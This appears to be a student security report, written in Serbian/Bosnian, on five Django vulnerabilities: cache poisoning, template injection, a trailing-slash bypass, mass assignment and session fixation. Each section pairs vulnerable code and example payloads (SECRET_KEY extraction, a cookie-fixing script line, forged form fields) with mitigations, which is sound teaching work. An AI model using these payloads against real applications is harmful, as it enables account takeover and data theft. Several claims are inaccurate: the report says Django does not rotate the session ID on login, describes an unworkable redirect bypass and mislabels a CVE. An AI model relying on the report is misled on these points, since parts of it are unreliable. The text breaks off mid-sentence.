


## Napad 1: Django Cache Poisoning(CVE-2020-13254)

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za **Django Cache Framework**, odnosno za način na
koji **CacheMiddleware** i dekorator **\@cache_page** keširaju HTTP
odgovore. U tipičnom toku obrade zahteva, middleware sloj najpre
proverava da li za dati zahtev postoji već sačuvan odgovor u kešu
(**cache hit**). Ako postoji, odgovor se vraća odmah, bez izvršavanja
view funkcije. Tek kada zapis ne postoji (**cache miss**), zahtev
prolazi do view-a, generiše se odgovor i upisuje u keš.

Ključni deo mehanizma je generisanje **cache ključa (cache key)** ---
identifikatora pod kojim se čuva keširani odgovor. U osnovnoj
konfiguraciji Django formira cache key na osnovu opštih karakteristika
HTTP zahteva, prvenstveno URL putanje, **Accept-Language** i
**Accept-Encoding** headera. Namerno se ne uključuju podaci koji
identifikuju korisnika (**Cookie/sessionid, Authorization,
request.user**), jer je cilj dizajna da se isti javni sadržaj deli
između više korisnika radi boljih performansi.

```
cache_key = md5_hash(
    request.get_full_path() +           # URL path
    request.META['HTTP_ACCEPT_LANGUAGE'] +  # Accept-Language
    request.META['HTTP_ACCEPT_ENCODING']    # Accept-Encoding
)
```

Ranjivost nastaje kada se opisani mehanizam primeni na **personalizovane
endpointe** --- odgovore koji zavise od identiteta korisnika. Dva
korisnika mogu poslati zahtev na isti URL sa istim headerima, pa Django
izračuna isti cache key, iako bi sadržaj odgovora morao biti različit.

Kod **cache hit-a**, middleware vraća sačuvani odgovor pre nego što se
izvrši view logika --- autentifikacija može biti ispravna, ali
personalizacija se ne izvrši jer se aplikaciona logika preskače. Ova
ranjivost se manifestuje tiho: ne pojavljuju se greške ni izuzeci, pa
sistem naizgled radi normalno.

**2) Opis napada**

Da bi cache poisoning u Django aplikaciji uopšte bio moguć, aplikacija
mora koristiti **server-side caching odgovora** (response caching) na
način da se cache ključ ne razlikuje između različitih korisnika. U
konfiguraciji, Redis se postavlja kao cache backend i time postaje
"zajedničko skladište" odgovora za sve korisnike aplikacije. Kritičan
detalj je da cache entry traje dovoljno dugo da ga drugi korisnik
"pokupi" prije nego što istekne.

Primjer konfiguracije (bitno je TIMEOUT i činjenica da se koristi
centralni Redis):
```
# learnhub/settings.py
CACHES = {
    'default': {
        'BACKEND': 'django_redis.cache.RedisCache',
        'LOCATION': 'redis://127.0.0.1:6379/1',
        'KEY_PREFIX': 'learnhub',
        'TIMEOUT': 3600,
    }
}
```

Ovdje TIMEOUT = 3600 znači da jednom "otrovan" (poisoned) odgovor može
ostati aktivan **1 sat**, što u praksi daje napadaču dovoljno vremena da
izazove curenje podataka kod velikog broja korisnika.

U ranjivom endpoint-u view je na aplikacionom nivou zapravo korektno
implementiran: provjerava autentifikaciju, uzima user_id iz session-a i
radi upit u bazu filtriran po korisniku. Dakle, da nema cache-a,
korisnik bi uvijek dobio samo svoje podatke.

Ključni problem nastaje jer je endpoint keširan dekoratorom
\@cache_page(3600), a taj dekorator cache ključ pravi **bez session
cookie-ja** i bez request.user. To znači: *response koji je
"personalizovan" završava kao globalno keširan, i poslije se dijeli
drugima.*

Ranjivi dio je upravo ovo:
```
from django.views.decorators.cache import cache_page

@cache_page(60 * 60)   # ⚠️ RANJIVO: kešira response bez user-specific cache key-a
def get_course_progress(request, course_id):

    student = request.user   # ← USER-SPECIFIC identitet

    progress = StudentProgress.objects(
        student_id=student.id,   # ← USER-SPECIFIC podaci
        course_id=ObjectId(course_id)
    ).first()

    return JsonResponse({
        'student_id': student.id,   # ← USER-SPECIFIC response
        'completion_percentage': progress.completion_percentage
    })
```

Teorijski, ovdje je suština: **endpoint vraća user-specific sadržaj**,
ali caching tretira taj sadržaj kao **shared** (zajednički) za sve koji
pogode isti cache key.

Django-ov cache_page (interno middleware / decorator mehanizam) generiše
cache ključ koristeći kombinaciju:

-   request method (GET)

-   full path (npr. /api/course/\<id\>/progress/)

-   neke Vary headere (tipično Accept-Language, Accept-Encoding, i ono što response označi kroz Vary)

Ali **ne uključuje** cookie (sessionid) niti request.user. Zbog toga dva
korisnika koji pošalju isti GET na isti URL, sa istim headerima,
dobijaju identičan cache ključ.

Napad se ne oslanja na to da napadač probije autentifikaciju. Naprotiv:
žrtva je legitiman korisnik, normalno ulogovan, i samo pristupi svom
progress endpoint-u. Taj prvi request je ključan jer stvara cache entry.

Tok izgleda ovako:

1.  Request stiže sa žrtvinim sessionid cookie-jem.

2.  Cache provjera se radi nad ključem koji ne zavisi od cookie-ja.

3.  Pošto je prvi put, cache nema entry → **CACHE MISS**.

4.  View se izvrši, uzme user_id iz session-a, izvuče podatke iz MongoDB.

5.  Response se vrati klijentu i **upisuje se u cache** pod ključem koji nije user-specific.

Sad dolazi ključni momenat napada: napadač (student_b) je takođe
legitiman korisnik, prijavi se i pozove isti endpoint (isti URL i isti
headeri). Iako ima svoj sessionid, on je nebitan u cache ključu. Zato
cache middleware nalazi prethodno keširani odgovor i vraća ga odmah.

Najbitnije teorijski: **view se uopšte ne izvršava**. To znači da se ne
izvršavaju ni:

-   request.user.is_authenticated provjera u view-u (jer view nije pozvan)

-   izvlačenje user_id iz session-a

-   MongoDB upit filtriran po napadačevom user_id

Dakle, "ispravna" sigurnosna logika postoji, ali bude preskočena jer se
vraća gotov response. Napadač dakle vidi tuđe podatke bez ikakvog
"hakovanja" login-a --- samo koristi cache ponašanje.

Ovo se zove cache poisoning jer napadač (ili žrtva, zavisno od
scenarija) uzrokuje da se u cache upiše sadržaj koji nije bezbjedan za
dijeljenje, a onda taj sadržaj postaje "autoritet" za buduće requestove.
U tvom primjeru, žrtva prva napuni cache, a napadač kasnije čita.

Ali u realnim scenarijima napadač može pokušati i obrnut tok: **napadač
prvi napravi cache entry (otruje cache)** nekim odgovorom koji će drugi
kasnije pokupiti (npr. ubacivanje pogrešnog sadržaja, pogrešnih headera,
ili čak XSS payload-a ako endpoint vraća HTML).

**3) Mitigacija**

Suština mitigacije sastoji se u promjeni logike keširanja tako da se
keširani odgovori više ne tretiraju kao **zajednički resurs** za sve
korisnike koji pristupe istom URL-u, već kao podaci koji su **strogo
vezani za identitet konkretnog korisnika**. Time se uklanja osnovni
uzrok ranjivosti --- situacija u kojoj se **personalizovani sadržaj
kešira pod generičkim ključem** i kasnije nenamjerno isporučuje drugim
korisnicima.

U ranjivom modelu, generički response caching funkcioniše na principu
**tehničke identifikacije zahtjeva**, gdje se cache ključ izvodi iz
**URL-a, HTTP metode i zaglavlja**, bez uključivanja identiteta
korisnika. Takav pristup implicitno pretpostavlja da je odgovor
**identičan za sve korisnike**, što nije tačno za endpoint-e koji
vraćaju **korisnički specifične podatke**.

Mitigacija uvodi koncept **logičke izolacije keširanih zapisa**.
Identitet korisnika postaje sastavni dio cache ključa, čime se
obezbjeđuje da **dva različita korisnika nikada ne mogu generisati isti
cache ključ**, čak i kada pristupaju potpuno istom endpoint-u. Na taj
način eliminiše se **cache key kolizija**, koja je osnovni tehnički
mehanizam cache poisoning napada.

Ova promjena se ogleda u načinu formiranja cache ključa:
```
cache_key = f"course_progress_{course_id}_user_{request.user.id}"
```

Uvođenjem **korisničkog identifikatora** u cache ključ postiže se:

-   **izolacija cache zapisa po korisniku**

-   eliminacija **cross-user data leakage-a**

-   onemogućavanje **cache key collision-a**

-   očuvanje sigurnosnog konteksta i pri cache hit-u

Time keširanje prestaje biti **globalna optimizacija aplikacije** i
postaje **optimizacija unutar sigurnosnog konteksta jednog korisnika**.

U izolovanom modelu, čak i kada se odgovor vrati direktno iz cache-a, on
pripada isključivo korisniku za kojeg je kreiran. Time se sprečava
situacija u kojoj cache može **preskočiti sigurnosnu logiku view
funkcije** i nenamjerno vratiti tuđe podatke.

Bezbedan obrazac rada može se predstaviti ovako:
```
# 1. Formiranje user-specific cache ključa
cache_key = f"course_progress_{course_id}_user_{request.user.id}"

# 2. Provjera cache-a
cached = cache.get(cache_key)
if cached:
    return JsonResponse(cached)

# 3. Generisanje podataka iz baze (vezano za korisnika)
data = compute_user_specific_data(request.user.id)

# 4. Keširanje izolovanog odgovora
cache.set(cache_key, data, 3600)

return JsonResponse(data)
```

Ovaj model garantuje da **cache hit više ne može zaobići sigurnosni
kontekst korisnika**, jer je identitet korisnika već ugrađen u cache
ključ.

Pored ovog pristupa, Django nudi **\@vary_on_headers(\'Cookie\')**, koji
automatski postiže per-user izolaciju uključivanjem session cookie-a u
cache key. Za posebno osetljive podatke, **\@never_cache** potpuno
isključuje keširanje.

**4) Identifikacija pretnje i bezbednosne posledice**

Ranjivost neadekvatnog keširanja personalizovanih odgovora direktno
narušava osnovne bezbednosne ciljeve sistema, jer omogućava da se
personalizovani **server-side generisani odgovori** pogrešno dele između
različitih korisnika putem keš mehanizma:

-   **Poverljivost (Confidentiality):** postoji visok rizik curenja
    osetljivih i personalizovanih podataka iz keširanih odgovora
    (napredak kroz kurs, završene lekcije, korisničke aktivnosti).
    Sistem gubi sposobnost da garantuje izolaciju korisničkih podataka.

-   **Integritet (Integrity):** korisnik može dobiti nepredvidiv i
    netačan sadržaj --- podatke koji pripadaju drugom korisniku. Iako se
    podaci u bazi ne menjaju, narušava se integritet prikaza i poverenje
    u aplikaciju.

-   **Dostupnost (Availability):** moguće je izazvati indirektne
    probleme kroz preopterećenje keš sloja ili generisanje velikog broja
    konflikata cache ključeva, što može dovesti do povećanog opterećenja
    servera i degradacije performansi.

-   **Detekcija incidenta:** odgovor se vraća direktno iz keša, pa se
    standardna aplikaciona logika i mehanizmi logovanja ne izvršavaju.
    Sistem često nema pouzdan trag o neovlašćenom pristupu podacima, pa
    ranjivost može dugo ostati neprimećena.


## Napad 2: Server-Side Template Injection (SSTI)

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za **Django Template Engine**, odnosno za način na
koji Django renderuje HTML odgovore. U tipičnom toku, view funkcija
poziva render(request, \'page.html\', context), Django učita unapred
definisan template fajl i ubaci vrednosti iz konteksta kroz izraze poput
{{ name }}. Korisnički unos se tretira kao običan podatak, ne kao deo
template logike.

Problem nastaje kada aplikacija umesto statičkog template fajla koristi
**dinamički kreiran template string**, npr. pozivanjem
Template(template_string) nad sadržajem koji je kontrolisan od strane
korisnika. Django Template Engine ne pravi razliku između sintakse koju
je napisao developer i sintakse ubačene od korisnika --- sve se parsira
i izvršava kao validan template.

Korisnik tada može ubaciti template izraze ({{ \... }} ili )
koji se evaluiraju na serveru, što otvara prostor za curenje informacija
iz konteksta i, u određenim uslovima, izvršavanje koda u okviru Python
runtime-a.

**2) Opis napada**

Tipičan tok: aplikacija generiše HTML poruku ubacujući korisnički
parametar direktno u template string. Kada napadač pošalje {{7\*7}},
server evaluira izraz i vraća **49** umesto teksta --- čime se potvrđuje
da se unos interpretira kao template kod. Nakon potvrde, napadač
pristupa osetljivim objektima iz konteksta. Ranjiva implementacija:
```
def welcome(request):
    name = request.GET.get('name', '')
    template_str = f'<h1>Dobrodosli, {name}!</h1>'
    return HttpResponse(Template(template_str).render(Context({})))
```

Napadač šalje:
```
  ?name={{7\*7}} → server vraća: 49 (potvrda SSTI)
```

Napadač zatim pristupa konfiguraciji i podacima iz konteksta:
```
  ?name={{settings.SECRET_KEY}}\
  ?name={{request.META}}
```

Nakon potvrde, napadač proširuje napad na curenje informacija iz
konteksta: tajne konfiguracije, putanje, tokene i kredencijale. U
nepovoljnim konfiguracijama i uz bogat kontekst, **SSTI** može
eskalirati jer se template evaluacija izvršava unutar Python runtime-a.
Napad se odvija tokom normalnog renderovanja, bez generisanja grešaka.

**3) Mitigacija**

Suština mitigacije je da se **korisnički input nikada ne sme
kompajlirati kao template**. Korisnički unos mora uvek biti prosleđen
kroz **context kao podatak**, a nikad direktno ubačen u template string.
```
# POGRESNO — ranjivo:
template_str = f'Dobrodosli, {user_input}!'
return HttpResponse(Template(template_str).render(Context({})))

# ISPRAVNO — input kao podatak u contextu:
return render(request, 'welcome.html', {'name': user_input})

# U template fajlu: <h1>Dobrodosli, {{ name }}!</h1>
```

Django **auto-escaping** štiti od XSS i sprečava evaluaciju izraza.

Potrebno je zadržati auto-escaping uključenim i izbegavati \|safe i  nad nepouzdanim podacima. Ako postoji poslovna potreba
za korisnički editabilnim šablonima, treba koristiti **sandboxovan
mehanizam** sa whitelistom dozvoljenih placeholdera.

U produkciji je obavezno držati **DEBUG = False**, jer debug mode
povećava količinu informacija dostupnih u greškama.

**4) Identifikacija pretnje i bezbednosne posledice**

SSTI direktno narušava osnovne bezbednosne ciljeve, jer omogućava
napadaču da utiče na **server-side renderovanje** i potencijalno izvrši
kod u kontekstu server procesa:

-   **Poverljivost (Confidentiality):** postoji rizik curenja osetljivih
    podataka iz context-a i konfiguracije --- interne putanje, detalji o
    request-u, konfiguracioni parametri, uključujući **SECRET_KEY**,
    database kredencijale i API ključeve, mogu biti eksponovani kroz
    evaluirane template izraze.

-   **Integritet (Integrity):** korisnik može dobiti manipulisani
    sadržaj, a u težim slučajevima SSTI može postati ulaz u širu
    kompromitaciju aplikacionog sloja. U nepovoljnim uslovima, lančani
    pristup Python objektima može dovesti do izvršavanja sistemskih
    komandi.

-   **Dostupnost (Availability):** moguće je izazvati DoS kroz skupe
    render operacije (ekstremne petlje i render "eksplozije" koje
    eksponencijalno povećavaju broj rekurzivnih evaluacija), što
    uzrokuje visoko CPU i memorijsko opterećenje.

-   **Detekcija incidenta:** napad se odvija normalno tokom renderovanja
    bez grešaka --- server vraća **HTTP 200**. Jedini trag je anomalan
    sadržaj u odgovorima, vidljiv samo uz content-level monitoring
    odgovora.

##  

## Napad 3: URL Dispatcher Trailing Slash ByPass

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za **Django URL Dispatcher** i **CommonMiddleware**
(opcija **APPEND_SLASH = True**), u kombinaciji sa custom authorization
middleware-om koji pristup kontroliše na osnovu request.path. Kada je
**APPEND_SLASH** uključen, CommonMiddleware ima dodatno ponašanje: ako
putanja ne match-uje nijedan URL pattern, proverava da li verzija sa
trailing slash-om (/) odgovara i, ako odgovara, vraća **301 redirect**
na URL sa slash-om.

Problem nastaje kada custom auth middleware radi jednostavnu string
proveru (npr. startswith(\'/admin/\')), ali ne normalizuje putanju. Tada
napadač može poslati URL varijantu bez slash-a koja prođe auth proveru,
a zatim CommonMiddleware odradi preusmeravanje na zaštićeni URL.

Suština ranjivosti je **neusklađenost (inconsistency)** između toga kako
custom middleware tumači putanju i kako Django normalizuje i preusmerava
putanju kroz **APPEND_SLASH** mehanizam.

**2) Opis napada**

Napad je **authorization bypass kroz varijaciju putanje**: napadač
identifikuje zaštićeni endpoint koji postoji sa slash-om (npr.
/admin/something/), a zatim šalje zahtev na varijantu bez slash-a
(/admin/something).

Custom middleware ne prepoznaje da je to admin putanja i propušta
zahtev. Nakon toga, **CommonMiddleware** detektuje da verzija sa
slash-om odgovara URL patternu i vraća **301 redirect**. Klijent zatim
prati redirect, a admin view se izvršava bez očekivane zaštite.

Napadač je običan prijavljen korisnik koji koristi razliku u obradi
URL-a za zaobilaženje autorizacije.
```
# Ranjiv custom middleware:
class AuthMiddleware:
    def process_request(self, request):
        if request.path.startswith('/admin/'):  # RANJIVO
            if not request.user.is_staff:
                return HttpResponseForbidden()
```
Napadač šalje zahtjev **GET /admin/dashboard** bez završne kose crte
(trailing slash). Zbog toga provjera zasnovana na uslovu
startswith(\'/admin/\') vraća vrijednost **False**, pa se bezbjednosna
provjera u potpunosti preskače. Nakon toga **CommonMiddleware** obrađuje
zahtjev: putanja /admin/dashboard se ne poklapa sa definisanim URL
obrascem, dok se varijanta sa kosom crtom /admin/dashboard/ poklapa,
zbog čega middleware automatski vraća **301 redirect**. Klijent zatim
prati preusmjerenje i šalje novi zahtjev ka /admin/dashboard/, nakon
čega se odgovarajući view normalno izvršava.

**3) Mitigacija**

Suština mitigacije je da autorizacija ne sme zavisiti od krhkih string
provera putanje bez normalizacije. Putanju treba normalizovati ili
koristiti robusno match-ovanje koje pokriva oba oblika URL-a (sa i bez
trailing slash-a), npr. request.path.rstrip(\'/\') ili regex tipa
\^/admin(/\|\$).
```
# ISPRAVNO — robustna provera putanje:
class AuthMiddleware:
    def process_request(self, request):
        import re
        if re.match(r'^/admin(/|$)', request.path):
            if not request.user.is_staff:
                return HttpResponseForbidden()

# Defense-in-depth — provera unutar view-a:
def admin_view(request):
    if not request.user.is_staff:
        raise PermissionDenied
```
Takođe je preporučljivo osloniti se na Django ugrađene kontrole
pristupa:

-   \@staff_member_required

-   \@login_required

-   \@permission_required

Middleware ordering mora biti konzistentan --- bezbednosne provere ne
smeju zavisiti od toga da li će se desiti redirect. Za posebno osetljive
operacije, može se razmotriti isključivanje **APPEND_SLASH** ili
eksplicitno definisanje 404 za varijante bez slash-a.

**4) Identifikacija pretnje i bezbednosne posledice**

Glavna posledica je narušavanje **autorizacije** --- korisnik bez
privilegija može doći do funkcija koje su namenjene samo admin/staff
ulozi, što direktno ugrožava sve bezbednosne ciljeve:

-   **Poverljivost (Confidentiality):** ako admin endpoint omogućava
    izvoz ili pregled osetljivih podataka (liste korisnika, finansijski
    podaci, konfiguracija), napadač koji zaobiđe autorizaciju može
    direktno pristupiti tim informacijama bez odgovarajućih privilegija.

-   **Integritet (Integrity):** napadač može pokrenuti admin akcije koje
    menjaju sistemsko stanje --- brisanje korisnika, reset lozinki,
    promena vlasništva resursa, izmena poslovnih podataka. Operacije
    ostavljaju trag kao da ih je uradio korisnik u svojoj ulozi, bez
    indikacije zaobilaženja autorizacije.

-   **Dostupnost (Availability):** masovne admin operacije poput bulk
    brisanja mogu izazvati ozbiljan prekid rada ili funkcionalni gubitak
    podataka. Napadač koji dobije admin pristup može pokrenuti
    destruktivne operacije koje zahtevaju visoke privilegije.

-   **Detekcija incidenta:** operacije se evidentiraju kao legitimne
    radnje autentifikovanog korisnika --- napadač je prijavljen, samo mu
    nije trebalo biti dozvoljeno izvršavanje admin operacija. Audit log
    ne beleži da je autorizaciona provera bila zaobiđena.

## Napad 4: Mass Assignment -- Django ModelForm

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za **Django Forms Framework**, odnosno za način na
koji **ModelForm** automatski mapira korisnički unos na atribute modela.
ModelForm omogućava automatsko generisanje form polja i direktno čuvanje
vrednosti kroz save().

Ključni mehanizam koji dovodi do ranjivosti je **automatsko uključivanje
svih modelskih polja u formu bez eksplicitnog ograničenja** --- kada se
koristi fields = \'\_\_all\_\_\', forma prihvata svaku vrednost koja
odgovara postojećem atributu modela, bez obzira na to da li je namenjen
za korisničko uređivanje.

Ranjivost nastaje jer se **HTTP POST podaci automatski mapiraju na model
i čuvaju bez provere privilegija**. Time se briše granica između javno
izmenjivih i internih sistemskih polja (npr. is_paid, subscription_tier,
credits_awarded).
```
# Ranjiva implementačija:
class EnrollmentForm(ModelForm):
    class Meta:
        model = Enrollment
        fields = '__all__'  # RANJIVO — uključuje SVA polja modela
```

Primer modelskih polja:

-   course --- javno polje

-   is_paid --- interno polje

-   subscription_tier --- interno polje

**2) Opis napada**

Napad se zasniva na slanju dodatnih parametara u HTTP zahtevu koji
odgovaraju internim atributima modela. Napadač ne mora koristiti
korisnički interfejs --- dovoljno je modifikovati zahtev kroz browser
developer tools ili proxy alat i dodati parametre koji se inače ne
pojavljuju u formi. Pošto **ModelForm** ne razlikuje namenu pojedinih
polja, svi validni parametri bivaju obrađeni i sačuvani. Napad ne
zahteva posebne privilegije --- dovoljan je jedan pravilno formiran
zahtev.
```
# Normalan zahtev:
POST /enroll  course=123

# Napadač modifikuje zahtev:
POST /enroll  course=123&is_paid=True&subscription_tier=premium&credits_awarded=100
```

Ako forma koristi fields = \'\_\_all\_\_\':

-   is_paid = True → preskočena naplata

-   subscription_tier = premium → neplaćeni premium pristup

-   credits_awarded = 100 → neovlašćeni krediti

**3) Mitigacija**

Suština mitigacije je primena **eksplicitne dozvole (whitelist)** umesto
implicitnog prihvatanja svih polja. Umesto fields = \'\_\_all\_\_\',
svaka forma mora eksplicitno navoditi samo ona polja koja korisnik
legitimno sme menjati.
```
# ISPRAVNO — eksplicitna whitelist:
class EnrollmentForm(ModelForm):
    class Meta:
        model = Enrollment
        fields = ['course']  # SAMO javna polja

# Sistemska polja postaviti programski u view-u:
def enroll(request):
    form = EnrollmentForm(request.POST)
    if form.is_valid():
        enrollment = form.save(commit=False)
        enrollment.student = request.user  # Programski
        enrollment.is_paid = False          # Programski
        enrollment.save()
```
Razdvajanje formi prema nivou privilegija --- gde su administrativna
polja dostupna samo kroz posebne admin forme --- dodatno smanjuje rizik.

Takođe je preporučljivo uvesti **audit mehanizme** za evidentiranje
promena nad osetljivim atributima radi detekcije pokušaja *mass
assignment* napada.

**4) Identifikacija pretnje i bezbednosne posledice**

Najvažnija posledica je narušavanje **integriteta sistema i modela
privilegija**. Neovlašćena izmena atributa može dovesti do eskalacije
prava pristupa, izmene poslovnih podataka ili zaobilaženja naplate:

-   **Poverljivost (Confidentiality):** izmena privilegijskih atributa
    (npr. subscription_tier, is_admin) može korisniku bez plaćanja
    dodeliti pristup premium sadržaju ili admin funkcijama, čime se
    eksponiraju zaštićeni resursi.

-   **Integritet (Integrity):** neovlašćene izmene finansijskih i
    statusnih atributa direktno narušavaju poslovnu logiku --- besplatno
    dobijanje plaćenog sadržaja, neosnovano dodeljivanje kredita,
    zaobilaženje verifikacije. Finansijske i operativne posledice često
    su teške za retroaktivno otkrivanje.

-   **Dostupnost (Availability):** neovlašćene promene konfiguracionih
    atributa mogu uzrokovati sistemske anomalije. Masovni napad, u kome
    mnogo korisnika istovremeno eksploatiše ranjivost, može dovesti do
    degradacije sistema zbog neočekivano visoke potrošnje resursa.

-   **Detekcija incidenta:** izmene izgledaju kao potpuno legitimne
    korisničke akcije jer prolaze kroz standardnu formu i view logiku,
    ne generišu greške i imaju validnu autentifikaciju. Bez audit
    logiranja osetljivih atributa, napad ostaje nevidljiv u access
    logovima.

## Napad 5: Django Session Fixation

**1) Komponenta sistema i suština ranjivosti**

Ranjivost je vezana za **Django Session Framework**, konkretno za način
upravljanja session identifikatorima tokom autentifikacije. Django
automatski kreira anonimni session za svakog posetioca i dodeljuje mu
jedinstveni **session ID** u sessionid cookie-u. Kada se korisnik
prijavi, autentifikacioni podaci (\_auth_user_id) upisuju se u postojeći
session, ali se session ID ne regeneriše automatski.

Suština ranjivosti je u tome što isti session identifikator ostaje
validan **pre i nakon autentifikacije**. Ako napadač uspe da nametne
žrtvinom browseru poznati session ID, nakon njenog login-a taj ID
postaje autentifikovan. Napadač tada može pristupiti sistemu kao
prijavljeni korisnik bez poznavanja lozinke.

Osnovni uzrok je nedostatak automatske **rotacije session ID-a** tokom
procesa autentifikacije.

**2) Opis napada**

Napad se odvija u tri faze. U prvoj fazi napadač nastoji da nametne
žrtvinom browseru poznati **session ID** --- kroz XSS ranjivosti, cookie
injection napade ili kompromitovane subdomene koji mogu pisati kolačiće
za roditeljski domen.

U drugoj fazi žrtva se prijavljuje: Django upisuje \_auth_user_id u isti
session, ali ne menja ID. U trećoj fazi napadač koristi poznati session
ID i dobija potpun pristup nalogu.
```
# Faza 1 — napadač nameće poznat session ID (npr. kroz XSS):
document.cookie = 'sessionid=ATTACKER_KNOWN_ID; path=/'

# Faza 2 — žrtva se prijavljuje:
Session: { sessionid: 'ATTACKER_KNOWN_ID', _auth_user_id: 42 }
# ID NIJE PROMENJEN

# Faza 3 — napadač šalje zahtev:
GET /profile/ Cookie: sessionid=ATTACKER_KNOWN_ID
# Server pronalazi validan autentifikovani session → pristup odobren
```

**3) Mitigacija**

Suština mitigacije je sprečavanje ponovne upotrebe **session
identifikatora** nakon promene nivoa privilegija. Najvažnija mera je
**regeneracija session ID-a** odmah nakon uspešne autentifikacije, čime
se osigurava da anonimni session ne može postati autentifikovan bez
promene identiteta.
```
def login_view(request):
    user = authenticate(request, username=u, password=p)
    if user:
        old_data = dict(request.session.items())
        request.session.flush()  # briše stari session, kreira novi ID
        for key, val in old_data.items():
            request.session[key] = val
        login(request, user)

# settings.py — bezbednosni parametri session cookie-a:
SESSION_COOKIE_HTTPONLY = True   # nema JavaScript pristupa
SESSION_COOKIE_SECURE = True     # samo HTTPS
SESSION_COOKIE_SAMESITE = 'Lax'  # zaštita od CSRF
```

Pored regeneracije session ID-a, neophodno je pravilno konfigurisati
bezbednosne parametre session cookie-a:

-   **HttpOnly** flag sprečava JavaScript pristup cookie-u,

-   **Secure** flag ograničava slanje samo preko HTTPS-a,

-   **SameSite** politika pruža zaštitu od CSRF napada.

Preporučuje se i dodatno vezivanje sesije za korisnički agent ili druge
kontekstualne parametre radi otežavanja zloupotrebe sa različitih
lokacija.

**4) Identifikacija pretnje i bezbednosne posledice**

Primarna posledica **session fixation** ranjivosti je narušavanje
poverljivosti, jer napadač dobija trajan pristup kompletnom korisničkom
nalogu. Za razliku od *cache poisoning*-a, gde dolazi do privremenog
mešanja odgovora, session fixation omogućava potpuno preuzimanje naloga:

-   **Poverljivost (Confidentiality):** napadač dobija potpun pristup
    svim ličnim i poslovnim podacima --- akademskom napretku,
    finansijskim podacima, privatnim porukama i svim resursima dostupnim
    tom korisniku. Pristup traje dok god session ostaje validan.

-   **Integritet (Integrity):** napadač može menjati podatke,
    privilegije i konfiguraciju naloga u ime žrtve. Sve izmene
    evidentiraju se kao akcije legitimnog korisnika, što ih čini teško
    razlučivim od normalnog korišćenja. Moguća je i potpuna promena
    pristupnih podataka, čime se žrtvi onemogućava povratak pristupa.

-   **Dostupnost (Availability):** napadač može zaključati korisnika iz
    sopstvenog naloga promenom lozinke ili email adrese, ili izvršiti
